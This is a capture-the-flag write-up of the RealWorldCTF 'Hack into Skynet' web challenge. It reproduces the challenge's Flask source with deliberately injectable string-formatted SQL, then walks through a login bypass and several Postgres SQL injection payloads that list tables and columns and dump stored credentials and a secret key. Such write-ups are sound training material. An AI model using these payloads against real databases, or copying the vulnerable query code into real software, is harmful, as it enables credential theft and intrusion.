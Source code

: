 ```yaml
---  
title: "RealWorldCTF - Hack into Skynet [Web] (81 solves)"  
author: "c7c3r0"  
description: "Hack into skynet to save the world, which way do you prefer?"  
date: 2022-01-23  
---
```


## Description  
Hack into skynet to save the world, which way do you prefer?

## Code Review  
```python  
import flask  
import psycopg2  
import datetime  
import hashlib  
from skynet import Skynet #Skynet Code is not provided and is unnecessary in
order to complete the challenge

app = flask.Flask(__name__, static_url_path='')  
skynet = Skynet()

def skynet_detect(): #Skynet Attack Detection System  
   req = {  
       'method': flask.request.method,  
       'path': flask.request.full_path,  
       'host': flask.request.headers.get('host'),  
       'content_type': flask.request.headers.get('content-type'),  
       'useragent': flask.request.headers.get('user-agent'),  
       'referer': flask.request.headers.get('referer'),  
       'cookie': flask.request.headers.get('cookie'), #If you can get a sessionId you will gain initial system access  
       'body': str(flask.request.get_data()),  
   }  
   _, result = skynet.classify(req)  
   return result and result['attack'] #On trying dangerous actions you are
denoted an attacker from the system (403 You are not Permitted to Access this
Page)

@app.route('/static/<path:path>')  
def static_files(path):  
   return flask.send_from_directory('static', path)

@app.route('/', methods=['GET', 'POST'])  
def do_query():  
   if skynet_detect():  
       return flask.abort(403) #Skynet is being attacked (User is presented with a 403 HTTP Status Code)

   if not query_login_state():  
       response = flask.make_response('No login, redirecting', 302) #No Login Redirecting  
       response.location = flask.escape('/login')  
       return response

   if flask.request.method == 'GET':  
       return flask.send_from_directory('', 'index.html') #Show index.html (index.html was never shown in the webpage URL and never used.)  
   elif flask.request.method == 'POST':  
       kt = query_kill_time()  
       if kt:  
           result = kt  
       else:  
           result = ''  
       return flask.render_template('index.html', result=result) #The result of attacking Skynet (Take a look at line #38.)  
   else:  
       return flask.abort(400)

@app.route('/login', methods=['GET', 'POST'])  
def do_login():  
   if skynet_detect():  
       return flask.abort(403)

   if flask.request.method == 'GET':  
       return flask.send_from_directory('static', 'login.html')  
   elif flask.request.method == 'POST':  
       if not query_login_attempt():  
           return flask.send_from_directory('static', 'login.html')  
       else:  
           session = create_session()  
           response = flask.make_response('Login success', 302) #We needed to bypass the login system  
           response.set_cookie('SessionId', session) #We needed a valid sessionId. Was provided after success login bypass.  
           response.location = flask.escape('/')  
           return response  
   else:  
       return flask.abort(400)

def query_login_state():  
   sid = flask.request.cookies.get('SessionId', '')  
   if not sid:  
       return False

   now = datetime.datetime.now()  
   with psycopg2.connect(  
           host="challenge-db",  
           database="ctf", #databse  
           user="ctf", #username  
           password="ctf") as conn: #password  
       cursor = conn.cursor()  
       cursor.execute("SELECT sessionid"  
          "  FROM login_session"  
          "  WHERE sessionid = %s"  
          "    AND valid_since <= %s"  
          "    AND valid_until >= %s"  
          "", (sid, now, now))  
       data = [r for r in cursor.fetchall()]  
       return bool(data)

def query_login_attempt():  
   username = flask.request.form.get('username', '')  
   password = flask.request.form.get('password', '')  
   if not username and not password: #username=&password=ctf(login bypass)  
       return False

   sql = ("SELECT id, account"  
          "  FROM target_credentials"  
          "  WHERE password = '{}'").format(hashlib.md5(password.encode()).hexdigest())  
   user = sql_exec(sql)  
   name = user[0][1] if user and user[0] and user[0][1] else ''  
   return name == username

def create_session(): #valid sessionId duration  
   valid_since = datetime.datetime.now()  
   valid_until = datetime.datetime.now() + datetime.timedelta(days=1)  
   sessionid =
hashlib.md5((str(valid_since)+str(valid_until)+str(datetime.datetime.now())).encode()).hexdigest()

   sql_exec_update(("INSERT INTO login_session (sessionid, valid_since,
valid_until)"  
          "  VALUES ('{}', '{}', '{}')").format(sessionid, valid_since, valid_until))  
   return sessionid

def query_kill_time():  
   name = flask.request.form.get('name', '')  
   if not name:  
       return None

   sql = ("SELECT name, born"  
          "  FROM target"  
          "  WHERE age > 0"  
          "    AND name = '{}'").format(name) ##SQLi AV.This is where magic happens.  
   nb = sql_exec(sql) #On a dangerous sql statement, abort operation.  
   if not nb:  
       return None  
   return '{}: {}'.format(*nb[0])

def sql_exec(stmt):  
   data = list()  
   try:  
       with psycopg2.connect(  
               host="challenge-db",  
               database="ctf",  
               user="ctf",  
               password="ctf") as conn:  
           cursor = conn.cursor()  
           cursor.execute(stmt)  
           for row in cursor.fetchall():  
               data.append([col for col in row])  
           cursor.close()  
   except Exception as e:  
       print(e)  
   return data

def sql_exec_update(stmt):  
   data = list()  
   try:  
       with psycopg2.connect(  
               host="challenge-db",  
               database="ctf",  
               user="ctf",  
               password="ctf") as conn:  
           cursor = conn.cursor()  
           cursor.execute(stmt)  
           conn.commit()  
   except Exception as e:  
       print(e)  
   return data

if __name__ == "__main__":  
   app.run(host='0.0.0.0', port=8080)  
```

## Inital Access (Login System Bypass)  
![](https://files.bitwarriors.net/images/skynet/forward.PNG)  
Bypassing the login system with a vanilla sqli injection was impossible.

Looking the source code, bypassing was made possible only after providing the
following from our proxy  
```username=&password=ctf```.

![](https://files.bitwarriors.net/images/skynet/login_bpass.PNG)  
## SQL Injection to reveal the flag  
Trying vanilla payloads proved unsuccessful because this is a Postgres SQL
Database.  
```sql  
||name||  
```

```sql  
'||name LIMIT 3 OFFSET '2  
```

```sql  
SELECT name, born FROM target WHERE age > 0 AND name = ''||name||'' => SELECT
name, born FROM target WHERE age > 0 AND name = name  
```  
```sql  
'; select account, password from target_credentials limit 3 offset '0  
```  
```sql  
'; select name, age from target limit 3 offset '0 ---  
```  
```sql  
'; select table_name, null from information_schema.tables limit 3 offset '0  
```  
```sql  
'; select column_name, null from information_schema.columns where
table_name='target' limit 3 offset '0  
```  
```sql  
'; select column_name, null from information_schema.columns where
table_name='target_credentials' limit 3 offset '4  
```

```sql  
'; select secret_key, null from target_credentials limit 3 offset '0  
```  
![](https://files.bitwarriors.net/images/skynet/flag.PNG)

[challenge](https://files.bitwarriors.net/ctf/RealWorldCTF4/hack_into_skynet_843e0c58997f52e3a65ca9b4c64f2cec.tar.gz)

###### Contributors: `dhmoskfunk` `jimman2003` `un1c0rn`

Original writeup (https://blog.bitwarriors.net/blog/real-world-ctf-hack-into-
skynet-web-81-solves/).